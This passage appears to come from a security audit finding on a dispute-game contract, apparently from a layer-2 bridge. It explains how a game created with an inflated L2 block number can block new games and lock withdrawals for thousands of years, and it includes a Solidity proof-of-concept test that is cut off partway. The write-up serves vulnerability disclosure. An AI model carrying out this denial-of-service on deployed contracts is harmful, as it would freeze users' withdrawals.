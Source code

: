 ```solidity
    function initialize() public payable virtual {
        // @POC: REDACTED

        // Grab the latest anchor root.
        (Hash root, uint256 rootBlockNumber) = ANCHOR_STATE_REGISTRY.anchors(GAME_TYPE);

        // Should only happen if this is a new game type that hasn't been set up yet.
        if (root.raw() == bytes32(0)) revert AnchorRootNotFound();

        // Set the starting output root.
        startingOutputRoot = OutputRoot({ l2BlockNumber: rootBlockNumber, root: root });

        // Do not allow the game to be initialized if the root claim corresponds to a block at or before the
        // configured starting block number.
        if (l2BlockNumber() <= rootBlockNumber) revert UnexpectedRootClaim(rootClaim());

        // @POC: REDACTED
    }
```

`FaultDisputeGame` now require to be deployed with a L2 block number that will not exist before years.

Considering a 1 second time per block and the attack duration being a week (7 days), the current L2 block number has grown from `100_000_234` to `100_605_034`.

`100_000_000_000 - 1_605_034 = 99998394966`

Withdrawals will be locked during `99998394966` blocks. At a rate of 1 block per second, it represents 1,156,242 days or 3,167 years.


## Proof of Concept

The following unit test can be imported in `test/dispute/FaultDisputeGame.t.sol`:

```solidity
    function test_DoS_duringSeveralYears() public {
        // @POC: Initial configuration
        Claim legitRootClaim = Claim.wrap(bytes32(uint256(111111222222333333444444)));
        bytes memory _extraData = abi.encode(bytes32(uint256(100_000_123))); // @POC: Legit L2 Block Number
        FaultDisputeGame legitGame = FaultDisputeGame(payable(address(disputeGameFactory.create(GAME_TYPE, legitRootClaim, _extraData))));

        vm.warp(block.timestamp + 3 days + 12 hours + 1 seconds);
        legitGame.resolveClaim(0);
        assertEq(uint8(legitGame.resolve()), uint8(GameStatus.DEFENDER_WINS));

        // @POC: Start of Attack
        Claim attackerRootClaim = Claim.wrap(bytes32(uint256(111111222222333333444444)));
        bytes memory _attackExtraData = abi.encode(bytes32(uint256(100_000_000_000))); // @POC: Attacker's L2 Block Number
        FaultDisputeGame attackerGame = FaultDisputeGame(payable(address(disputeGameFactory.create(GAME_TYPE, attackerRootClaim, _attackExtraData))));

        // @POC: Here attacker's game gets blacklisted, but resolves `DEFENDER_WINS`
        vm.warp(block.timestamp + 3 days + 12 hours + 1 seconds);
        attackerGame.resolveClaim(0);
        assertEq(uint8(attackerGame.resolve()), uint8(GameStatus.DEFENDER_WINS));


        // @POC: New legit games are not deployable
        legitRootClaim = Claim.wrap(bytes32(uint256(5555666677778888)));
        _extraData = abi.encode(bytes32(uint256(100_000_127))); // @POC: Legit L2 Block Number
```
